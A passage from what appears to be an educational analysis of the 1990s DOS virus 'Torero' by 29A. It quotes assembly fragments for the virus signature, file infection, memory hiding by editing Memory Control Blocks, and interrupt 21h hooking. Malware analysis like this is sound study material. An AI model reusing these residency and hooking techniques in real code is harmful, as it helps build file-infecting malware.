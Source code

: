     -   This part of the code manages the infection of opened files by injecting the virus's code into them.
8.  **Virus Signature**:
    
    -   The virus includes a signature, likely used by its creator for identification.
```
signature       db      0dh,0ah,'[Torero :-) by Mister Sandman/29A]',0dh,0ah

```
9.  **Cleanup and Closure**:
    
    -   After performing its actions, the virus restores the original interrupt vectors and performs cleanup before returning control to the system or host application.
```
; Hide in memory block
                mov     byte ptr ds:[di], 'Z'        ; Mark block as Z (hidden)

; Cleanup and restoring original interrupt vectors
                ...
                mov     word ptr [si-4], offset old_int_21h
                mov     word ptr [si-2], ax          ; Restore original Int 21h

```
### System Interrupt Interception

#### Interrupt 21h Setup

```
set_int_21h:    mov     ax,es
                dec     ax
                mov     ds,ax                       ; Set DS to the segment before ES
  ```

-   The virus adjusts the Data Segment (DS) register to point to a specific memory location, likely where it plans to store or retrieve data.

```
xor     di,di
                cmp     byte ptr ds:[di],'Y'        ; Check if it's a 'Z' MCB (Memory Control Block)
                jna     set_int_21h
```

-   It's checking the Memory Control Block (MCB) to find a specific block. This is part of how the virus finds a suitable place in memory.

```
sub     word ptr ds:[di+3],((torero_size/10h)+2)
                sub     word ptr ds:[di+12h],((torero_size/10h)+2)
```

-   The virus adjusts memory control blocks to make space for itself, effectively hiding in memory.

```
add     ax,word ptr ds:[di+3]
                inc     ax
                mov     ds,ax
                mov     byte ptr ds:[di],'Z'        ; Mark the block as 'Z', indicating it's used
                mov     word ptr ds:[di+1],8        ; Mark it as system memory
 ```
